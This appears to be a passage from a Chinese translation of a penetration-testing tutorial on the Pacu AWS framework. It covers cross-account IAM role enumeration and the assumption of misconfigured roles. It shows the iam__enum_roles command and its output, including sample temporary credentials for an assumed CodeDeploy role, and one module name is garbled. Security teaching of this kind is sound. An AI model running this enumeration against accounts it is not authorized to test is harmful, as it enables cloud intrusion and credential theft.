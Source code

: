 
输出显示，它在修改后的单词列表中的七个猜测中找到了两个有效用户。在编写本文时，Pacu 使用的默认单词列表有 1136 个名称，它将尝试使用。

# 枚举角色

过去，可以使用类似的攻击来枚举另一个 AWS 帐户中存在的角色，而且，如果只需要 AWS 帐户 ID，那么我们基本上可以强制执行所有存在的角色。自 Rhino Security Labs 发布以来，AWS 修改了 STS`AssumeRole`API 调用从 API 返回的错误消息，这意味着无法再使用此方法确定角色是否存在。`iam__enum_assume_role`Pacu 模块就是为了利用这一点而编写的，但由于这一变化而不再工作。

另一方面，发现了一种新方法，允许您在跨帐户的基础上枚举角色。此方法与用于枚举跨帐户用户的方法相同。最初，这个方法不像现在这样工作，但必须对 API 进行一些更改，以使这个枚举成为可能。编写了一个新的 PACU 模块来滥用该攻击向量，并命名为 EndoT0.它的工作原理与`iam__enum_users`模块完全相同，因此可以使用基本相同的命令运行：

```
 run iam__enum_roles --account-id 000000000000 --role-name TestRole 
```

该模块将枚举目标帐户中存在的角色，然后尝试使用这些角色检索临时凭据，以防其策略配置错误并允许您访问。该模块的部分内容如下：

```
Pacu (Spencer:imported-default) > run iam__enum_roles --account-id 000000000000 --role-name TestRole 
  Running module iam__enum_roles... 
[iam__enum_roles] Warning: This script does not check if the keys you supplied have the correct permissions. Make sure they 
are allowed to use iam:UpdateAssumeRolePolicy on the role that you pass into --role-name and are allowed to use sts:AssumeRole to try and assume any enumerated roles! 

[iam__enum_roles] Targeting account ID: 000000000000 

[iam__enum_roles] Starting role enumeration... 

[iam__enum_roles]   Found role: arn:aws:iam::000000000000:role/service-role/AmazonAppStreamServiceAccess 
[iam__enum_roles]   Found role: arn:aws:iam::000000000000:role/CodeDeploy 
[iam__enum_roles]   Found role: arn:aws:iam::000000000000:role/SSM 

[iam__enum_roles] Found 3 role(s): 

[iam__enum_roles]     arn:aws:iam::000000000000:role/service-role/AmazonAppStreamServiceAccess 
[iam__enum_roles]     arn:aws:iam::000000000000:role/CodeDeploy 
[iam__enum_roles]     arn:aws:iam::000000000000:role/SSM 

[iam__enum_roles] Checking to see if any of these roles can be assumed for temporary credentials... 

[iam__enum_roles]   Role can be assumed, but hit max session time limit, reverting to minimum of 1 hour... 

[iam__enum_roles]   Successfully assumed role for 1 hour: arn:aws:iam::000000000000:role/CodeDeploy 

[iam__enum_roles] { 
  "Credentials": { 
    "AccessKeyId": "ASIATR17AL2P90OB3U6Z", 
    "SecretAccessKey": "nIll8wr/T60pbbeIY/hkqRQlC9njUzv3RKO3qznT", 
    "SessionToken": "FQoGAR<snip>iC/aET", 
    "Expiration": "2019-01-16 20:32:08+00:00" 
  }, 
  "AssumedRoleUser": { 
    "AssumedRoleId": "AROAJ9266LEYEV7DH1LLK:qw9YWcRjmAiunsp3KhHM", 
    "Arn": "arn:aws:sts::000000000000:assumed-role/CodeDeploy/qw9YWcRjmAiunsp3KhHM" 
  } 
} 
[iam__enum_roles] iam__enum_roles completed. 

[iam__enum_roles] MODULE SUMMARY: 
```